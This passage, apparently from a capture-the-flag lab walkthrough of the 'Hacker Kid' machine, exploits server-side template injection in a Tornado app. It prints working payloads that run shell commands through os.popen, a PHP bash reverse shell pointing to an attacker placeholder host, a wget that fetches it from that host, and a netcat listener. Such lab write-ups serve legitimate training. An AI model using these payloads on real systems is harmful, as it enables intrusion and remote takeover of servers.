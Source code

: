 The logon had a query string parameter ?next which doesn’t appear to do much, but after logging in the application asks us for a name.

![image11.png]({{site.baseurl}}/Images/vb-hackerkid/IMAGE11.png)

So lets pass it a name as a query parameter. And it just responds back with whatever we put in.

```
http://hackerkid.blackhat.local:9999/?name=thoseguys
```

![image12.png]({{site.baseurl}}/Images/vb-hackerkid/IMAGE12.png)

Lets see what we can do with this one.

Bit of a search for `tornado exploit` in your fav search engine should give you some info and lead you to find that [Tornado is vulnerable](https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/) to SSTI.

We confirm that this setup is vulnerable to SSTI using this.
{% raw %}
```
http://hackerkid.blackhat.local:9999?name={%import%20os%}{{os.popen(%22whoami%22).read()}}
```
{% endraw %}
![image13.png]({{site.baseurl}}/Images/vb-hackerkid/IMAGE13.png)

This gives us back saket which is the user we noted in the passwd file.

So we could use this to give us a reverse shell in the SSTI but when we tried it only ran as www-data so lets skip straight to using SSTI to wget a reverse shell and then run that.

So lets create a reverse shell php file locally.
```
touch rev.php
vim rev.php
```
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker>/443 0>&1'");?>
```

And now we can serve that up via a quick python server.

```
python3 -m http.server 8000
```

Then use our SSTI to run wget and download the reverse shell to `/tmp/rev.php`.
{% raw %}
```
http://hackerkid.blackhat.local:9999/?name={%import%20os%}{{os.popen(%22wget%20http://<attacker>:8000/rev.php%20-O%20/tmp/rev.php%22).read()}}
```
{% endraw %}
Lets set up our listener with netcat on our kali machine.

```
nc -nlvp 443
```
